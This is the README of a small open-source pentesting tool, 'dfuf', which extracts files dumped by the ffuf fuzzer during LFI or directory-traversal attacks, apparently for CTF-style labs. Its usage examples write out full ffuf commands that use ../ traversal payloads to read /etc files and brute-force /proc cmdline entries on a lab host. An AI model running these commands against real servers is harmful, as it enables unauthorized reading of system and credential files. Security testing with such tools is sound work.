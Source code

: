 # dfuf - Dump Faster U Fool

## About

> The name of **dfuf** was inspired by **ffuf** (Fuzz Faster U Fool)

### Why dfuf?

This simple script can extract files from **ffuf** request/response dump (`-od` option).

**ffuf** should be faster than any LFI dumpers available on the public.

### Example Scenarios

- When one was stuck at initial foothold, he/she might need to dump files via LFI / Directory Traversal vulnerability for further enumeration.

- When getting shell is impossible, one may perform data exfiltration by dumping files via LFI / Directory Traversal vulnerability.

## Demo

[![asciicast](https://asciinema.org/a/71wYTurJc36uM2oTwp6cOZMtj.svg)](https://asciinema.org/a/71wYTurJc36uM2oTwp6cOZMtj)

## Installation

Make sure [pipx](https://github.com/pypa/pipx?tab=readme-ov-file#install-pipx) is installed.

```bash
pipx install git+https://github.com/opabravo/dfuf
```

## Usage

```bash
usage: dfuf [-h] -o FFUF_JSON_OUTPUT -od FFUF_OUTPUT_DIR dir_to_save_extracted_files

A tool to extract files from ffuf output

https://github.com/opabravo/dfuf

positional arguments:
  dir_to_save_extracted_files
                        Output directory where extracted files will be saved

options:
  -h, --help            show this help message and exit
  -o FFUF_JSON_OUTPUT, --ffuf-json-output FFUF_JSON_OUTPUT
                        Json output file from ffuf
  -od FFUF_OUTPUT_DIR, --ffuf-output-dir FFUF_OUTPUT_DIR
                        Output directory from ffuf

Usage:
    1. Dump files with ffuf
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json

    2. Extract files from ffuf output
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

Examples:
    1. Common linux files (880 lines) (~8 sec)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    2. Common files under `/etc` (8314 lines) (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w '/usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt' -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    3. Brute force cmdline in `/proc` (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

        View the result in a pretty format :
        $ find ffuf_dump/proc -type f -exec bash -c 'pid=$(echo $0 | cut -d '/' -f3); echo -en "\\n$pid | "; cat $0 | tr "\0" " "' {} \; | sort -s -n -k 1,1
```

## License

[MIT](LICENSE)


